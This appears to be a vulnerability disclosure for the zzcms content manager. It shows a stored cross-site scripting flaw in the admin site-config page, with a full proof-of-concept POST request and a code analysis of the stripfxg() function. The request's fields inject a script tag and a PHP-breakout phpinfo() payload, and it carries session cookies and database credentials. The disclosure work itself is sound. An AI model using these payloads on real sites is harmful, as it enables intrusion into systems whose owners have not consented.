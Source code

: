 ### /admin/siteconfig.php has stored xss

Vulnerability process

Visit /admin/siteconfig.php and set the site statistics code as follows

![image-20240826214427621](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826214427621.png)

POC

```java
POST /admin/siteconfig.php? HTTP/1.1
Host: zzcms:8786
Content-Length: 2330
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://zzcms:8786
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://zzcms:8786/admin/siteconfig.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: askclassid=0; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; PassWord=4297f44b13955235245b2497399d7a93; UserName=aaaa; userid=1; __tins__713776=%7B%22sid%22%3A%201724603456590%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201724605579607%7D; __51laig__=34
Connection: keep-alive

sitename=%22%3F%3E%3C%3Fphp+phpinfo%28%29%3B+%2F*&sqldb=zzcms&sqluser=root&sqlpwd=123456&sqlhost=localhost&sqlport=3306&siteurl=http%3A%2F%2Fzzcms%3A8786&address=&img=http%3A%2F%2Fzzcms%3A8786%2Fimage%2Flogo.png&icp=%E8%B1%ABicp%E5%A4%8707007271%E5%8F%B7&webmasteremail=357856668%40qq.com&kftel=400-728-9861&kfmobile=18738134686&kfqq=357856668&sitecount=%3Cscript%3Ealert%2812345%29%3C%2Fscript%3E&channelzs=%E4%BE%9B%E5%BA%94&channeldl=%E6%B1%82%E8%B4%AD&info_num=0&admin_mulu=admin&https=http%3A%2F%2F&tj=%E4%BF%9D%E5%AD%98%E8%AE%BE%E7%BD%AESiteInfo&sdomain=No&whtml=Yes&checksqlin=Yes&allowrepeatreg=Yes&allowrepeataddinfo=No&isaddinfo=Yes&isshowcontact=No&newtable=No&showdlinzs=No&cache_update_time=0&html_update_time=0&liuyanysnum=0&adminlog_day=7&usergr_power%5B%5D=daili&channel%5B%5D=zhanhui&channel%5B%5D=zixun&channel%5B%5D=special&channel%5B%5D=job&channel%5B%5D=ask&channel_zs=g&channel_dl=q&channel_zh=z&channel_zx=i&channel_qy=c&channel_wk=w&channel_zt=s&channel_job=job&channel_bj=b&channel_ask=ask&opensite=Yes&showwordwhenclose=%E7%BD%91%E7%AB%99%E6%9A%82%E6%97%B6%E5%85%B3%E9%97%AD+%21&openuserreg=Yes&openuserregwhy=%E7%BD%91%E7%AB%99%E6%9A%82%E6%97%B6%E5%85%B3%E9%97%AD%E6%B3%A8%E5%86%8C%E5%8A%9F%E8%83%BD%EF%BC%8C%E6%98%8E%E5%A4%A9%E5%BC%80%E6%94%BE%EF%BC%81&stopip=&siteskin=red13&ztskin=tongyong&zsliststyle=list&pagesize_qt=10&pagesize_ht=20&wordsincomane=&lastwordsincomane=&nowordsincomane=a%7Cb%7Cc%7Cd%7Ce%7Cf%7Cg%7Ch%7Ci%7Cg%7Ck%7Cl%7Cm%7Cn%7Co%7Cp%7Cq%7Cr%7Cs%7Ct%7Cu%7Cv%7Cw%7Cx%7Cw%7Cz%7CA%7CB%7CC%7CD%7CE%7CF%7CG%7CH%7CI%7CG%7CK%7CL%7CM%7CN%7CO%7CP%7CQ%7CR%7CS%7CT%7CU%7CV%7CW%7CX%7CY%7CZ%7C1%7C2%7C3%7C4%7C5%7C6%7C7%7C8%7C9%7C0&stopwords=&isshowad_when_timeend=Yes&showadtext=%E5%B9%BF%E5%91%8A%E4%BD%8D%E5%B7%B2%E5%88%B0%E6%9C%9F&qiangad=Yes&showadvdate=15&duilianadisopen=No&flyadisopen=No&smtpserver=smtp.qq.com&sender=357856668%40qq.com&smtppwd=&whendlsave=Yes&whenuserreg=Yes&whenmodifypassword=Yes&checkistrueemail=No&sendsms=No&smsusername=&smsuserpass=&apikey_mobile_msg=&jifen=Yes&jifen_bilu=1&jf_reg=5&jf_login=1&jf_addreginfo=2&jf_lookmessage=1&jf_look_dl=1&jf_set_adv=2&jf_addinfo=1&maximgsize=20000&maxflvsize=200&allowed_flv=Yes&shuiyin=Yes&addimgXY=right&syurl=http%3A%2F%2Fzzcms2021.com%2F1%2Fuploadfiles%2F2022-10%2F20221002182750503.png&qqlogin=Yes&bbs_set=No&action=saveconfig
```

Then go back to the interface as long as echo has the web stats code.

For example, visit the home page

http://zzcms:8786/, that is, you build the URL home page

![image-20240826214741912](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826214741912.png)



![image-20240826214828282](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826214828282.png)

Accessing any of these can result in xss

Code Analysis

Locate the

```java
$fcontent=$fcontent. "define('sitecount','". str_replace('"','',str_replace("'",'',stripfxg($_POST['sitecount'],true)))."') ;//网站统计代码\r\n";
```

You can see that the stripfxg function is used for our argument

See the stripfxg function

```java
function stripfxg($string,$htmlspecialchars_decode=false,$nl2br=false) {//去反斜杠 
$string=stripslashes($string);//去反斜杠,不开get_magic_quotes_gpc 的情况下，在stopsqlin中都加上了，这里要去了
if ($htmlspecialchars_decode==true){
$string=htmlspecialchars_decode($string,ENT_QUOTES);//转html实体符号
}
if ($nl2br==true){
$string=nl2br($string);
}
return $string; 
}
```

You can see that the htmlspecialchars_decode function decodes our input, resulting in no filtering of xss.

On our home page, which is the index

![image-20240827003624069](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240827003624069.png)

Successfully spliced into our html code
